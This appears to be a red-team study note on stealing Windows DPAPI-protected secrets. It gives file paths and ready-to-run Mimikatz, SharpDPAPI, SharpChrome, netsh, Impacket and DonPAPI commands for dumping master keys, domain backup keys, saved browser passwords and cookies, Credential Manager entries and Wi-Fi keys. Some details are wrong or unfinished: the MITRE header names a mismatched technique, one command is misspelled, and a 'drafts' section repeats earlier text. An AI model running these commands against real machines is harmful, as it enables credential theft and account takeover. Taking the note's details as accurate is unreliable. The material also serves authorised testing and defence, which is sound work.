


> **MITRE ATT&CK:** [`T1003.002 — OS Credential Dumping: Security Account Manager`](https://attack.mitre.org/techniques/T1003/001/). 
> **Required privilege:** Local Administrator or `SYSTEM` (requires `SeDebugPrivilege`).  
> **Goal:** Extract local user credential material from the SAM database.

### Table of contents
## About Windows DPAPI

>**DPAPI (Data Protection Application Programming interface)** is a Windows-native cryptographic API that applications use to encrypt and decrypt sensitive data without having to manage encryption keys themselves.

Microsoft introduced DPAPI all the way back in Windows 2000, and it's been quietly protecting (and betraying) secrets ever since.

[!note]+ Use of DPAPI 
- DPAPI is used by a wide range of applications and Windows subsystem to protect sensitive data stored on disk:
	- **Google Chrome, Microsoft Edge**, and other **Chromium-based browsers** use DPAPI to encrypt saved passwords, cookies, and payment data.
	- The Windows **[[Credential Manager_]]** relies on DPAPI to encrypt saved network credentials, RDP credentials, and generic application passwords.
	- **Microsoft Outlook** uses DPAPI to encrypt S/MIME certificates and certain account credentials.
	- **Wi-Fi profiles** store PSKs (pre-shared keys) encrypted with DPAPI inside the XML profile files.
	- **Saved connection credentials in RDP connection files (`.rdp`)** are often encrypted with DPAPI.
	- The **.NET framework** exposes DPAPI functionality through the `System.Security.Cryptography.ProtectedData` class.
	- **Windows OpenSSH agent** can encrypt stored SSH private keys using DPAPI.
	- And more.

So, getting your hands into DPAPI keys often means you get everything.

### How DPAPI works

- The API consists of two functions: 
	- [`CryptProtectData()`](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata) to encrypt data,
	- [`CryptUnprotectData()`](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata) to decrypt it.

>[!note] DPAPI itself does not store persistent application data. It simply receives plaintext and returns encrypted data (in **DPAPI blobs**), or conversely.

DPAPI does **not encrypt application data directly with the user’s password**. Instead, it relies on a layered key hierarchy. User credentials protect a single secret, but the actual encrypted keys are generated and managed by Windows.





- Windows first derives a **logon credential hash** from the user's password (historically SHA-1 for local accounts).
- This hash is combined with the user's **SID** and passed through the [PBKDF2](https://en.wikipedia.org/wiki/PBKDF2) key derivation function (with 4000-8000 iterations depending on the Windows version) to produce the **DPAPI pre-key**.
- The **DPAPI pre-key** is used to encrypt and decrypt the **DPAPI Master Key file** — a randomly-generated secret stored on disk.
- Windows combines the Master Key with random values stored in the DPAPI blob to derive **temporary session keys**.
- These session keys are what actually used to encrypt and decrypt the protected data.

>[!important]+ **Master keys** are 512-bit (64-byte) randomly-generated secrets stored under the user's profile. 
>- Each key file is encrypted and decrypted with the **DPAPI pre-key**, derived from the user's password and SID.
> - Master key files are named after their GUID and stored under:
> 
> ```powershell
> C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>
> ```
>- Keys rotated roughly every **90 days**, but the old ones are retained to decrypt older blobs. You'll often see a directory full of GUIDs; all of these keys may be needed depending on when a given blob was created.
>- Key files are **hidden** — always use `-Hidden` to see them.

>The data encrypted with DPAPI is stored in **DPAPI blobs** — data structures returned by the [`CryptProtectData()`](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata) API function.

- Besides the ciphertext itself, the blob data structure contains:
	- The **GUID of the master key**.
	- The **salt** used to compute the session key — random data generated during encryption.
	- The **symmetric encryption algorithm** used to encrypt the data and the **hash algorithm** used for integrity and key derivation.

>[!bug] If you have a user's master key, you can decrypt every DPAPI-protected secret that was encrypted with that key (since DPAPI blobs themselves contain all necessary additional parameters to derive the session keys).

>[!bug] If you have a user's password, you can derive the DPAPI pre-key and decrypt master keys yourself and use it to decrypt the master key files.

## Artifact locations

### Master key files

- Master key files are named by GUID and stored under the user's profile:

```powershell
C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\
```

```powershell
C:\Users\<user>\AppData\Local\Microsoft\Protect\<SID>\
```

>[!note] Windows stores DPAPI master keys in the **Roaming** folder intentionally — so that in domain environments, master keys travel with the user's roaming profile across machines. The Local path exists but is almost always empty.

>[!important] Key files are **hidden** — always use `-Hidden` to see them.

Two additional locations matter when you're running as `SYSTEM` or targeting machine-level keys:

- `SYSTEM` / machine-level master keys:

```powershell
C:\Windows\System32\Microsoft\Protect\S-1-5-18\
```

- Service account master keys:

```powershell
C:\Windows\System32\config\systemprofile\AppData\
```

```powershell
C:\Windows\System32\config\LocalService\AppData\
```

```powershell
C:\Windows\System32\config\NetworkService\AppData\
```

>[!note] `SYSTEM`/machine-level master keys are encrypted with a DPAPI key derived from the machine's **boot key** rather than a user password.

### Credential files

- Windows Credential Manager DPAPI blobs are stored under:

```powershell
C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
```

```powershell
C:\Users\<user>\AppData\Local\Microsoft\Credentials\
```

### Windows Vault

The Windows Vault stores web credentials (saved by IE/Edge legacy), Windows Hello PINs, and credentials saved by certain UWP applications.

- User vault:

```powershell
C:\Users\<USER>\AppData\Local\Microsoft\Vault\
```

- System-wide vault:

```powershell
C:\ProgramData\Microsoft\Vault\
```

### Browser data

Chromium-based browsers store credential databases as **SQLite files**. The passwords inside are DPAPI-encrypted, but the exact encryption scheme changed at Chrome 80.

- Google Chrome:

```powershell
C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Login Data

C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Cookies

C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Local State
```

- Microsoft Edge:

```powershell
C:\Users\<user>\AppData\Local\Microsoft\Edge\User Data\Default\Login Data
```


- Brave: 

```powershell
C:\Users\<user>\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default\Login Data
```

>[!tip]+
>The `Login Data` file is a SQLite database. The passwords stored in it are DPAPI-encrypted blobs. The `Local State` file contains an `encrypted_key` field — a DPAPI-protected AES key used in newer Chromium versions.

- Vault secrets are stored under:

```powershell
C:\Users\<user>\AppData\Local\Microsoft\Vault\
```

### Wi-Fi Profiles

PSKs live in the wireless profile XMLs — accessible directly if you have admin rights, or via `netsh` from any elevated context.

- Wi-Fi Profiles are stored under:

```powershell
C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\<interface_GUID>
```

- Dump via `netsh`:

```powershell
netsh wlan show profiles
```

```powershell
netsh wlan export profile name="<SSID>" folder=C:\Temp key=clear
```
## Enumerating DPAPI secrets

### Manual enumeration

- Enumerate keys for a specific user:

```powershell
Get-ChildItem -Hidden C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>
```

```powershell
Get-ChildItem -Hidden C:\Users\<user>\AppData\Local\Microsoft\Protect\<SID>
```

- `SYSTEM` / machine-level master keys:

```powershell
Get-ChildItem -Hidden C:\Windows\System32\Microsoft\Protect\S-1-5-18\
```

- Enumerate master keys for all users, recursively:

```powershell
Get-ChildItem -Recurse -Hidden C:\Users\*\AppData\Roaming\Microsoft\Protect\ 2>$null
```

- Enumerate credential blobs for all users:

```powershell
Get-ChildItem -Recurse -Hidden C:\Users\*\AppData\Roaming\Microsoft\Credentials\ 2>$null
```

```powershell
Get-ChildItem -Recurse -Hidden C:\Users\*\AppData\Local\Microsoft\Credentials\ 2>$null
```

### Seatbelt

**[`Seatbelt`](https://github.com/GhostPack/Seatbelt)** is the fastest way to enumerate DPAPI-relevant artifacts system-wide.


- Full user-context sweep:

```powershell
.\Seatbelt.exe -group=user
```

- Enumerate all master keys per user:

```powershell
.\Seatbelt.exe DpapiMasterKeys
```

- List credential blob files:

```powershell
.\Seatbelt.exe CredFiles
```

- List vault contents:

```powershell
.\Seatbelt.exe Vault 
```

- Detect installed Chromium browsers and profile paths:

```powershell
.\Seatbelt.exe ChromiumPresence 
```

## Dumping master keys

There several ways for you to obtain user's master keys:

- Use [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `sekurlsa::dpapi` to **extract cached master keys from LSASS memory for logged-in users** — just like you would do for other secrets (see [[LSASS memory]]). For this, you need `SYSTEM` or local Administrator with `SeDebugPrivilege`.
- If you have a user's password, you can **derive the DPAPI pre-key manually** and **use it to decrypt master key files**.
- In an AD environment, if you're currently authenticated as the target user, you can **ask the DC to decrypt the master key** for you using the backup decryption keys it stores.
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `lsadump::backupkeys` to **retrieve the domain's recovery key**.

---

>[!tip] [Mimikatz](https://github.com/gentilkiwi/mimikatz) is the primary tool for local DPAPI operations. The `dpapi` module handles everything from master keys to credential dumping. 
### Extracting cached master keys from LSASS memory

When a user logs on, Windows decrypts their master keys and them in LSASS memory. This cache persists for the duration of the logon session.

If you have `SYSTEM` or local Administrator with `SeDebugPrivilege`, you can use the [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `sekurlsa::dpapi` module to extract cached credentials:


1. Request `SeDebugPrivilege` using `privilege::debug`:

```powershell
privilege::debug
```

2. Use the `sekurlsa::dpapi` module to extract master keys from the LSASS memory it can find:

```powershell
sekurlsa::dpapi
```

The module extracts all master keys and other credentials it can find.

>[!note] See [[LSASS memory]].

### Deriving DPAPI pre-key manually

If you know the user's plaintext password, you can use the [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `dpapi::masterkey` module to derive the DPAPI pre-key and then use it to decrypt master key files:

```powershell
dpapi::masterkey /in:"C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>" /sid:<user_SID> /password:<password> /protected
```

- `/in`: The path to the master key.
- `/sid`: The SID of the target user. 
- `/password`: The target user's plaintext password (not NT hash).
- `/protected`: Defines the user account as a protected one.

>[!tip]+
> - Get the user's SID:
> 
> ```powershell
> wmic useraccount where name='<user>' get sid
> ```
> 
> - For the current user:
> 
> ```powershell
> whoami /user
> ```


### Decrypting master keys with the user's password

So, the master key is encrypted with a DPAPI pre-key derived from the user's password. But if the user *forgets their password* and resets it with an Administrator's help or from another device, **the master keys encrypted with a pre-key derived from that old password are gone**. And therefore all DPAPI blobs protected with these master keys.

Microsoft solves this by creating **backup keys** and storing them on the DC.

>In Active Directory environments, the **DPAPI Backup keys** are randomly generated when the domain is created and stored on the DCs, encrypted with the domain key.

The DPAPI backup key pair is an asymmetric key pair where the **public key** is shared to clients, and the private key is stored on DCs.

- So, on a Windows machine, there are two copies of a DPAPI master key: one encrypted with the DPAPI pre-key derived from a user's password, and another, encrypted using the **domain backup public key**.



When your old password is lost and you need to recover master keys, Windows would use **[MS-BKRP (BackupKey Remote Protocol)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-bkrp/90b08be4-5175-4177-b4ce-d920d797e3a8)** to talk to the DC. This protocol allows a client to ask a DC to wrap (encrypt) secrets and unwrap them (decrypt).
It works over **RPC** using authenticated connections between the client and the domain controller.

This means that
>[!bug] If you are already authenticated as the user who's master keys you target, it’s possible to ask the DC for the **backup key to decrypt the master keys using RPC (MS-BKRP)**.

On a target machine, you can use the [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `dpapi::masterkey` module for this purpose:

```powershell
dpapi::masterkey /rpc
```

- `/rpc`: Can be used to remotely decrypt the master key of the target user by contacting the DC's RPC Service. 

>[!warning] Your authentication context must match the owner of the key you're trying to decrypt — or the DC will dodge you.
### Extracting backup keys

The [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `lsadump::backupkeys` module dumps the DPAPI backup keys from the DC. So, instead of asking the DC to decrypt specific master keys, you ask it for the credentials that can be used to decrypt *any* user's master key.
This operations requires elevated privileges — `SYSTEM` or local Administrator with `SeDebugPrivilege`.

1. Request `SeDebugPrivilege` using `privilege::debug`:

```powershell
privilege::debug
```

2. Use `lsadump::backupkeys` to dump the DPAPI backup keys from the DC:

```powershell
lsadump::backupkeys /system:<DC> /export
```

- `/system`: The target DC's hostname.
- `/export`: Export the output as `.pvk` (*private key*).

This produces a `.pvk` file (e.g., `ntds_capi_0_<GUID>.pvk`) in your current directory.
Once you have it, decrypt any user's master key without their password:

```powershell
dpapi::masterkey /in:"C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>" /pvk:ntds_capi_0_<GUID>.pvk
```

- `/in`: The path to the master key.
- `/pvk`: The path to the private key file.

### Decrypting DPAPI blobs

With a master key in hand (from any of the four paths above), you can now decrypt the actual credential material. For this, you would likely use one of [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `dpapi` modules, depending on what you're decrypting. 

### Decrypting DPAPI blobs

- To decrypt raw DPAPI blobs, use the [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `dpapi::blob` module:

```powershell
dpapi::blob /in:dpapi_blob.txt /unprotect /masterkey:<masterkey>
```

- `/in`: The path to the blob file.
- `/unprotect`: Display the decryption results on screen.
- `/masterkey`: The master key to use for decryption.

>[!note] A **raw DPAPI blob** you would decrypt with `dpapi::blob` is the direct output of `CryptProtectData()` — just ciphertext with a header containing the master key GUID and salt. Many applications store their secrets this way.

### Decrypting Credential Manager Files

- To decrypt credential files from Windows Credential Manager (the unnamed blobs under `\Credentials\`, e.g, `C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\`), use the [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `dpapi::cred` module:

```powershell
dpapi::cred /in:C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\<credential_file> /masterkey:<masterkey>
```

- `/in`: The path to the credential file to decrypt.
- `/masterkey`: The master key to use for decryption.

### Dumping browser credentials

- To decrypt credentials from Chromium-based browsers encrypted with DPAPI, you can use the [Mimikatz](https://github.com/gentilkiwi/mimikatz)'s `dpapi::chrome` module:

```powershell
dpapi::chrome /in:"C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:<MASTER_KEY>
```

- `/in`: The path to the file to decrypt.
- `/masterkey`: The master key to use for decryption.

>[!important]+ Chrome <`80` and Chrome >`80`
> **Pre-Chrome 80**: Each saved password was individually encrypted as a DPAPI blob and stored directly in the `Login Data` SQLite database. You hand Mimikatz the master key and it decrypts passwords one by one.
> 
> **Chrome 80+**: Google added an extra AES-256 layer. During browser startup, Chrome calls `CryptUnprotectData()` on the `os_crypt.encrypted_key` value stored in `Local State` — this gives it a runtime AES key held only in memory. Individual passwords in `Login Data` are then encrypted with that AES key (with an `v10` prefix in the ciphertext). To decrypt offline, you need to first unwrap the `encrypted_key` from `Local State` using DPAPI, then use that AES key to decrypt the individual password entries.
> 
> `Mimikatz`'s `dpapi::chrome` handles both paths when given the right master key. 

Alternatively, you can use [`SharpChrome`](https://github.com/GhostPack/SharpDPAPI) — it handles Chrome 80+ decryption chain more cleanly than `Mimikatz` in most scenarios:

- Dump all Chrome login:

```powershell
.\SharpChrome.exe logins /masterkey:<MASTER_KEY>
```

- Also dump cookies:

```powershell
.\SharpChrome.exe cookies /masterkey:<MASTER_KEY>
```

- If running as the target user with no master key, try:

```powershell
.\SharpChome.exe logins
```

### SharpDPAPI

[`SharpDPAPI`](https://github.com/GhostPack/SharpDPAPI) is a broader tool that dumps credentials, certificates, browser data, and vault secrets in a single run. It's particularly useful when you're running as the target user and want to pull everything at once:

- Running as target user — derives keys from current context:

```powershell
.\SharpDPAPI.exe credentials
.\SharpDPAPI.exe vault
```

- With a master key:

```powershell
.\SharpDPAPI.exe credentials /masterkey:<KEY>
```

- Triage mode — enumerate everything without decrypting (fast recon):

```powershell 
.\SharpDPAPI.exe triage
```
## Dumping DPAPI credentials remotely

When you're working from a Linux attack host and either don't have a shell yet or want to avoid dropping tools on the target, [Impacket](https://github.com/SecureAuthCorp/impacket) and [`DonPAPI`](https://github.com/login-securite/DonPAPI) cover most of the same ground (though you would first need to copy the target files to your machine; see [[Linux_file_transfers]] and [[Windows_file_transfers]]).

### `dpapi.py`

If you have the target user's password, you can use the [Impacket](https://github.com/SecureAuthCorp/impacket)'s [`dpapi.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) to connect to the target system and decrypt the master key:

```bash
dpapi.py masterkey -file "C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>" -sid <user_sid> -password <password> 
```

You can use the same script to obtain the backup keys from the DC and then decrypt the master key:

```bash
dpapi.py backupkeys -t <domain>/<user>:<password>@<target>
```

### `DonPAPI`

[`DonPAPI`](https://github.com/login-securite/DonPAPI) can be used to remotely extract a user's DPAPI secrets. It supports [[Pass-the-Hash]], [[Pass-the-Ticket]], and similar attacks.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```

## References and further reading

- [`Data Prorection API — Wikipedia`](https://en.wikipedia.org/wiki/Data_Protection_API)
- [`DPAPI secrets — The Hacker Recipes`](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)
- [`DPAPI - Extracting Passwords — HackTricks`](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)
- [`Windows - DPAPI — Internal All The Things`](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi/)

- [`Reading DPAPI Protected Blobs — Tom O'Neill, Medium`](https://medium.com/@toneillcodes/decoding-dpapi-blobs-1ed9b4832cf6)

- [`DPAPI backup keys on Active Directory domain controllers — Microsoft Learn`](https://learn.microsoft.com/en-us/windows/win32/seccng/cng-dpapi-backup-keys-on-ad-domain-controllers)

- [`[MS-BKRP]: BackupKey Remote Protocol — Microsoft Learn`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-bkrp/90b08be4-5175-4177-b4ce-d920d797e3a8)
## drafts

- Data encrypted with DPAPI can only be decrypted by the same user or system that encrypted it.


- Extract the backup keys & use it to decrypt a master key:

```powershell
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
```

```powershell
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK
```

- Decrypt Chrome data:

```powershell
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```

- Decrypt DPAPI-protected data using a master key:

```powershell
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```

commonly used by applications like Internet Explorer, Google Chrome, Microsoft Edge, Outlook (for S/MIME), Credential Manager, .NET framework (`System.Security.Cryptography.ProtectedData`), IIS (SSL/TLS), and more.
- Windows also uses that API to encrypt sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and so on.


```
User password
        │
        ▼
DPAPI Pre-Key
(derived from logon secret + SID)
        │
        ▼
Decrypts Master Key file
(random secret stored on disk)
        │
        ▼
Master Key
        │
        ▼
Derived Session Keys
        │
        ▼
Encrypt DPAPI blobs
```

 a 512-bit (64-byte)

- The master key is not used directory to encrypt application data; instead, it is used to derive **temporary session keys**


- Windows takes the user's password and derives the logon credential hash (for local users, this is usually a SHA-1 hash).

- That hash is combined with the user's SID and passed through [PBKDF2](https://en.wikipedia.org/wiki/PBKDF2) (with 4000-8000 iterations depending on the Windows version) to produce the **DPAPI pre-key**.

- That **pre-key** is used to encrypt and decrypt the **DPAPI Master Key** file — a 512-bit (64-byte) randomly-generated secrets stored on disk.

- The Master Key is then combined with random data stored in the DPAPI blob to derive **temporary session keys**.
- These session keys are what actually used to encrypt and decrypt data.


```
DPAPI Master Key
   │
   ├── Encrypted with user password
   │      (normal usage)
   │
   └── Encrypted with domain backup public key
          (recovery mechanism)
```


Other than extracting the credentials locally using Mimikatz, given proper credentials, you can connect remotely using tools like:

- [Impacket](https://github.com/SecureAuthCorp/impacket)'s [`dpapi.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and and [`secretsdump.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
- [`DonPAPI`](https://github.com/login-securite/DonPAPI)
- [`DPAPIck`](https://github.com/jordanbtucker/dpapick)
- [`DPAPIlab`](https://github.com/dfirfpi/dpapilab)